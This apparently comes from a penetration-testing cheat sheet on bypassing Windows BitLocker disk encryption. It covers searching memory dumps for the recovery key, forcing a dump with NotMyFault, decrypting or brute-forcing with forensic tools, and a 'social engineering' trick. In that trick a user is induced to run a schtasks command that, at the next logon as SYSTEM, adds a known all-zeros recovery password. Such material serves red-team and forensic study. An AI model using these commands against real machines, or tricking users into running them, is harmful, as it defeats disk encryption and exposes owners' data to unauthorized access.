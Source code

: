 # 🔏 BitLocker

## Bypassing Bitlocker

>Bitlocker uses **2 passwords** : 
>- The one used by the user, 
>- The recovery password (48 digits). 
>Try to search for the recovery password in : **C:\Windows\MEMORY.DMP** (memory dump). 
>You can get this file and a copy of the filesytem and then use **Elcomsoft Forensic Disk Decryptor** to get the content (this will only work if the password is inside the memory dump). 
>You could also force the memory dump using **NotMyFault** of Sysinternals, but this will reboot the system and has to be executed as Administrator. 
>You could also try a **bruteforce attack** using *Passware Kit Forensic*.

### Check if enabled

```powershell
manage-bde -status
# powershell
Get-BitLockerVolume
```

### Social Engineering

Finally, you could make the user add a new recovery password making him executed as administrator:

```powershell
schtasks /create /SC ONLOGON /tr "c:/windows/system32/manage-bde.exe -protectors -add c: -rp 000000-000000-000000-000000-000000-000000-000000-000000" /tn tarea /RU SYSTEM /f
```

This will add a new recovery key (composed of 48 zeros) in the next login. To check the valid recovery keys you can execute:

```bash
manage-bde -protectors -get c:
```
